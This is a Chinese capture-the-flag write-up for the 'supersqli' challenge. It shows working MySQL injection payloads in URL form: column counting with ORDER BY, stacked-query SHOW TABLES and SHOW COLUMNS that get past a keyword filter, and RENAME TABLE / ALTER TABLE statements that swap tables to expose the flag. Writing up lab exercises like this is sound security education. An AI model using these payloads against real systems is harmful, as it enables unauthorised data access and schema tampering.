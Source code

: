 # supersqli

题目描述：随便注

遇到 `SQL` 题我是有一点点恶感和害怕的, 感觉每题的注射方式都不一样!

尝试一些简单的值: `1'` 返回错误:

`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从 `MariaDB` 我们可以知道这题是 `MYSQL` 注入.

检查 `table` 有 2 `columns`:

```
?inject=1'+order+by+1--+
?inject=1'+order+by+2--+
?inject=1'+order+by+3--+ 返回错误
```

本题也 `filter` 一些字:

```
?inject=1'+union+select+1,2--+
返回: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

试了所有我知道的方法, 还是不能绕过这个 `filter`. 太绝望了, 决定找一下 write up. 原来在 `MYSQL` 中有命令 `show` 可以用.

显示 `table`:

`?inject=-1';show+tables--+-`

`-1` 是用来清除页面, 因为 `inject=-1` 没有显示任何数据. 我们得到 `2` 个 `table` 是 `1919810931114514` 和 `words`. 以为到这应该快要成功. 显示 `table` 的 `columns`:

`?inject=-1';show+columns+from+`1919810931114514`--+-`

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

`?inject=-1';show+columns+from+words--+-`

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

又是一次绝望, 看了 write up 后, 原来还有这样一种思路: 因为当开始我门读取 `inject=1`, `inject=2` 只读到两个 `inject` 的值, 所以页面显示我们可以读取的数据属于 `words`, 但 `flag` 又在 `1919810931114514` 里. 那么, 可以把这两个 `table` 的内容相换!!!

`?inject=-1'%3bRENAME+TABLE+`words`+TO+`words1`%3bRENAME+TABLE+`1919810931114514`+TO+`words`%3bALTER+TABLE+`words`+CHANGE+`flag`+`id`+VARCHAR(100)+CHARACTER+SET+utf8+COLLATE+utf8_general_ci+NOT+NULL%3b--+-`

现在我们已经可以读取 `words` 的内容和那到 `flag`:

`?inject=1'+or+1=1--+-`
